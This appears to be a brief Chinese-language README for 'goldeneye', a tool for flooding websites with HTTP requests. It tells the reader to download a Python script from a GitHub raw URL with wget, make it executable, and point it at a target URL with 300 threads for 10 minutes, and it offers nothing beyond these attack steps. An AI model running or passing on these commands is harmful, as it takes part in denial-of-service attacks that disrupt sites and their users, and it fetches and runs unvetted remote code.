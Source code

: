 # goldeneye
脚本需要在linux服务器SSH终端执行

wget https://raw.githubusercontent.com/wxhscc/hjy/main/hjy.py

chmod +x hjy.py

./hjy.py http://url/ -s 600 -w 300

300线程发包10分钟
